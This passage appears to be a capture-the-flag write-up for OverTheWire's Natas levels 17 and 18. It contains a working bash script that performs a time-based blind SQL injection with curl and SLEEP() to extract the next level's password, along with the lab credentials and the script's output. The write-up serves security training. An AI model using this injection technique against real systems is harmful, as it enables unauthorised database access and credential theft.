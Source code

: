 Exectly the same as natas15, but it doesn't show me the prints...

It had to do something with timing.
```
#!/bin/bash

CHARS="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"
PASS_LEN=32
URL="natas17.natas.labs.overthewire.org/index.php"
LOGIN="natas17:EqjHJbo7LFNb8vwhHb9s75hokh5TF0OC"
PASS=""

for pos in $(seq 1 $PASS_LEN); do
	for char in $(echo $CHARS | fold -w1); do
	    SECONDS=0
		curl $URL -u $LOGIN -s -F "username=natas18\" AND IF(BINARY SUBSTRING(password,$pos,1)=\"$char\", SLEEP(5), 0) -- \"" > /dev/null
		if [ $SECONDS -ge 5 ]; then
			PASS+=$char
			echo "pass so far: $PASS"
			break
		fi
	done
done

echo "Password for natas18: $PASS"
```

```
abs@MacBookPro natas % ./brute_force_natas17.sh
Password for natas18: 6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ
```


# Level 17 -> 18:

```
abs@MacBookPro OverTheWire % curl "natas18.natas.labs.overthewire.org/" -u natas18:6OG1PbKdVjyBlpxgD4DDbRG6ZLlCGgCJ                                                                       
<h1>natas18</h1>
<div id="content">

<p>
Please login with your admin account to retrieve credentials for natas19.
</p>

<form action="index.php" method="POST">
Username: <input name="username"><br>
Password: <input name="password"><br>
<input type="submit" value="Login" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
```
